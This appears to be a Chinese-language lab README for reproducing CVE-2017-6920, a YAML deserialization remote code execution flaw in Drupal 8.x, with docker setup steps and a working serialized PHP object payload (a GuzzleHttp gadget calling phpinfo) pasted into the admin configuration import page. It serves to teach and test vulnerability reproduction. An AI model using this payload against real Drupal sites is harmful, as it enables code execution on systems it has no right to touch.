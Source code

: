 # Drupal Core 8 PECL YAML反序列化远程代码执行漏洞（CVE-2017-6920）

Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

在使用PECL YAML解析器的Drupal 8.x至8.3.4版本中存在远程代码执行漏洞。该漏洞是由于YAML内容的不安全反序列化导致的，允许攻击者执行任意代码。

参考链接：

- <https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-06-21/drupal-core-multiple>
- <https://paper.seebug.org/334/>

## 环境搭建

执行如下命令启动一个存在漏洞的Drupal 8.3.0服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到Drupal的安装页面。按照默认配置完成安装步骤。由于环境中没有MySQL，可以选择SQLite作为数据库。

## 漏洞复现

首先，以管理员身份登录Drupal站点。然后，访问`http://127.0.0.1:8080/admin/config/development/configuration/single/import`页面。

在Configuration type中选择"Simple configuration"，Configuration name可以任意填写，在"Paste your configuration here"中粘贴以下PoC：

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![1](1.png)

点击"Import"后，你将看到漏洞已成功触发，显示phpinfo页面：

![2](2.png)

> 注意：虽然官方CPE信息显示该漏洞从8.0.0版本就存在，但我们的测试表明只能在Drupal 8.3.0中复现，而在8.0.0中无法复现。
